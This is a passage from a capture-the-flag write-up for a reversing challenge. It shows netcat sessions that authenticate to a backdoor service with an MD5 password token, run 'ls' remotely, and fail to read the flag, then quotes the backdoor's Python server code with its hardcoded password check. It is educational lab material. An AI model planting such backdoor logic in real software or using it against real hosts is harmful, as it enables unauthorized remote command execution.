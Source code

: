 ```console
165.227.226.11: inverse host lookup failed: Unknown host
(UNKNOWN) [165.227.226.11] 31486 (?) open
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $nc -vvv 165.227.226.11 31486
165.227.226.11: inverse host lookup failed: Unknown host
(UNKNOWN) [165.227.226.11] 31486 (?) open
e2162a8692df4e158e6fd33d1467dfe0

command:ls
bd.py
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
 sent 44, rcvd 89

```

Now, when we try to run command that isn't ```ls``` we failed:

```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $nc -vvv 165.227.226.11 31486
165.227.226.11: inverse host lookup failed: Unknown host
(UNKNOWN) [165.227.226.11] 31208 (?) open
e2162a8692df4e158e6fd33d1467dfe0
command:cat flag.txt
 sent 54, rcvd 0

```

Let's observe again the code:
```python
...
while True:
    while True:
        client, addr = sock.accept()
        data = client.recv(32)
        if len(data) != 32:
            client.close()

		if data.decode() != md5(b's4v3_th3_w0rld').hexdigest():
			client.send(b'Invalid')
			client.close()
		else:
			size = client.recv(1)
			command = client.recv(int.from_bytes(size, 'little'))
			if not command.startswith(b'command:'):
				client.close()
			else:
				command = command.replace(b'command:', b'')
```